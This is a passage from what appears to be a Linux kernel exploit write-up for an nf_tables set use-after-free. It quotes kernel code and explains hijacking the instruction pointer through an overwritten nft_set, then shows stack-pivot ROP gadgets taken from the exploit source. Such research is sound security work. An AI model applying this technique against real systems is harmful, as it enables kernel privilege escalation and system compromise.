 - [net/netfilter/nf_tables_api.c:nft_set_destroy()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n4671)
```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
	int i;

	if (WARN_ON(set->use > 0))
		return;

	for (i = 0; i < set->num_exprs; i++)
		nft_expr_destroy(ctx, set->exprs[i]);

	set->ops->destroy(set);
	nft_set_catchall_destroy(ctx, set);
	kfree(set->name);
	kvfree(set);
}
```
Finally, the exploit deletes the overwritten `struct nft_set` object to trigger RIP control through `set->ops->release` function pointer and initiates the ROP.

![cos_2](./img/cos_2.png)

- [exploit/extra-refined/exploit.c#L101](../exploit/extra-refined/exploit.c#L101)
```c
// push rdi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_nocg_1_offset;
// pop rsp ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff81004130 (nop ; ret)
uintptr_t pivot_gadget_nocg_2_offset;
// add rsp, 0xc8 ; jmp 0xffffffff82204200 (ret)
uintptr_t pivot_gadget_nocg_3_offset;
```
Since the current chunk address is stored in `rdi` and `rsi` registers, the exploit can pivot the kernel stack to the current chunk by using the above pivot gadgets.
